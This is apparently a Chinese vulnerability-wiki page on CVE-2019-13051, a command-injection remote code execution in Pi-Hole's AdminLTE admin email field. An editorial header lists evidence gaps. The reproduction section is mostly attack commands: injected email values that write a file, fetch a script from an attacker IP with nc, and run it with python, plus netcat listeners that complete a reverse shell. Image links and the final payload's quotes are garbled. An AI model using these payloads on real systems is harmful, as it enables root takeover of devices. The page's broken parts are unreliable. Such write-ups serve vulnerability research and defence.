





# （CVE-2019-13051）Pi-Hole 远程代码执行漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：Admin web credentials;<4.3.2 claimed;scheduled processing delay10min;netcat/Python variant
- 证据范围：Admin-email command injection with staged demonstration; no source/fix citation

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- All image links have duplicate trailing paths; one image references unrelated8816 folder
- Curly quotes in final email payload and missing revshell.py artifact impair reproducibility
- Exact scheduled task/root privilege condition undocumented
- No authoritative affected/fixed release reference

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

一、漏洞简介
------------

通过描述的"AdminLTE"组件上的漏洞，可以远程获得RaspberyPi设备（或应用程序正在运行的任何设备/VM）上的根访问权限。要利用此漏洞，需要对AdminLTE
web界面的管理访问权限凭据。

二、漏洞影响
------------

Pi-Hole \< 4.3.2

三、复现过程
------------

在管理员邮箱处添加

    "`test>/tmp/poc_proof.txt`"@0-sec.org

Pi-Hole远程代码执行漏洞/media/rId24.png)

由于该系统设定原因，需等待十分钟后，即可发现`/tmp/poc_proof.txt`
已经被创建

Pi-Hole远程代码执行漏洞/media/rId25.jpg)

### 深入利用

现在攻击机上执行反弹shell命令

    nc -nvlp 4444 < revshell.py

在管理邮箱处执行反弹shell代码

    "`nc${IFS}192.168.1.69${IFS}4444>/tmp/revshell.py`"@0-sec.org

Pi-Hole远程代码执行漏洞/media/rId27.png)

我们可以看到http请求如下所示

Pi-Hole远程代码执行漏洞/media/rId28.png)

随后等待十分钟，查看是否执行成功

在确保执行成功后，继续执行nc反弹shell命令

    nc -nvlp 4445

最后，再向网站执行反弹shell命令

    “`python${IFS}/tmp/revshell.py`”@0-sec.org

等待十分钟后，查看回显结果

Pi-Hole远程代码执行漏洞/media/rId29.jpg)
